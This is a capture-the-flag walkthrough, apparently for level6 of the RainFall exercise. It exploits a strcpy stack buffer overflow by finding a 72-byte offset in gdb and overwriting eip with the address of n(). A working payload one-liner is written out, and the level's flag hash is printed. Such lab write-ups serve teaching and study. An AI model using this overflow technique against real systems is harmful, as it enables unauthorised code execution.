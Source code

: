 # Walkthrough

**Main** : 
The goal is to exploit the vulnerability of `strcpy` , filled the buffer until blow the stack frame to force the register `eip` to execute what we want , in our case we wan executed the `n()`

**Process**:  
>   1. Find the offset
>     2. Get address of `n()`
>    3. Pass payload

## Step 1

### Find the offset 

To the find the offset i used a  [Buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?) 

    (gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac
    Starting program: /home/user/level6/level6 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac
    
    Program received signal SIGSEGV, Segmentation fault.
    0x41346341 in ?? ()
    (gdb) 

    (gdb) print &o 
    $1 = (<text variable, no debug info> *) 0x80484a4 <o>

The offset is `0x41346341` = `72` 

## Step 2 
### Get address of `n()`

```
(gdb) print &n
$2 = (<text variable, no debug info> *) 0x8048454 <n>
```
*The address `0x8048454` it convert in little-endian format `\x54\x84\x04\x08`*

## Step 3 

### Step 1 : Load payload

passe the pass as parameter
*The address `0x8048454` it convert in little-endian format `\x54\x84\x04\x08`*
```
level6@RainFall:~$ ./level6 $(python -c 'print "\x90" * 72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```


